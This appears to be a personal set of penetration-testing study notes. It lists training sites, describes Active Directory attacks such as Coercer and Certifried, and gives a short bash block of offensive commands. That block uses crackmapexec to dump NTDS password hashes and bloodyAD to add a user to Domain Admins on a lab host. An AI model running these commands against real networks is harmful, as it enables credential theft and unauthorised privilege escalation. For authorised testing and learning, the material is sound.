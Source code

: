 
# Learning Resources for Cybersecurity

* TryHackMe
* HackTheBox
* Over The Wire
* https://taggartinstitute.org/
* PentesterLab  


## Random Notes

* When looking for XSS also look for SSTI or CSTI  


* As a blue teamer, you should run Blood Hound regularly and analyze its output.
* As a red teamer, your job is not to fix the vulnerabilities. Your job is to report
  the vulnerabilities to the client. It is their decision to make about how to reconfigure their
  environment.


### Escalation Paths (esc)
`ESC<number>` : escalation paths


### Coercer
[coercer.py](https://github.com/p0dalirius/Coercer)
A python script to automatically coerce a Windows server 
to authenticate on an arbitrary machine through many methods.


### Certifried: Active Directory Domain Privelege Escalation  
Actice Directory Certificate Services  
Present certificate to access to direcory  
It takes the cert and checks if it corresponds to an active directory object.  



### bloodyAD
```bash
bloodyAD -h 

bloodyAD -d 'domain.name' -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 get children --target 'Domain Admins'

#when windows stores a password, it stores NTLM hashes, and they all will have the same LandMan hash NTDS hashes. LandMan hashes are not stored anymore. For legacy purposes they still have an entry in there. The second hash from cme smb will be the second hash separated by the colon. You can just use a colon and the NT hash ( :B0B4D2498249AO54UJ9D06E)
cme smb 10.10.10.2 -u 'users.name' -p 'seek' --ntds --user robert.almstead

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 get membership ''

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 add groupMember 'Domain Admins' 'robert.olmstead'

bloodyAD -d "mydomain.local" -u 'users.name' -p 'passwordgoeshere' \
--host 10.10.10.2 remove groupMember 'Domain Admins' 'users.name'
```




